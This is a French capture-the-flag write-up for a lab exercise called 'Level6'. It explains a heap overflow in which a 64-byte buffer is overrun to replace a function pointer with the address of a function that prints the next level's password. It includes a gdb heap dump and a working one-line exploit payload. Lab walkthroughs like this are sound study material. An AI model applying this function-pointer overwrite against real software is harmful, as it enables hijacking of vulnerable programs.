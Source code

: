 ## Level6

L'exécutable prend un argument.

On a deux fonctions importantes : la fonction `m()` se contente d'afficher "Nope" tandis que la fonction `n()` lance la commande `system("bin/cat /home/user/level7/.pass")`, cette dernière est inutilisée.

Dans le main, deux allocations sont faites sur la heap avec `malloc`, une de 64 octets dans laquelle sera stockée `argv[1]` et une de 4 octets, la taille d'un pointeur sur fonction.

Le pointeur sur fonction prend l'adresse de `m()`.

```gdb
0x804a008:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x00000000      0x00000011      0x08048468      0x00000000
```
*État de la heap en remplissant simplement le buffer. On voit l'adresse de `m` après le buffer de 64 octets et 8 octets de  métadonnées de `malloc`.*

On va donc devoir écrire l'adresse de la fonction `n()` là ou est écrite celle de `m()`.

Notre argument sera donc formaté comme suit:

```
[64 octets] + [8 octets] + [4 Octets]
  buffer       metadata    n() address
```

#### Solution:

`./level6 $(python -c 'print("A"* 72 + "\x54\x84\x04\x08")')`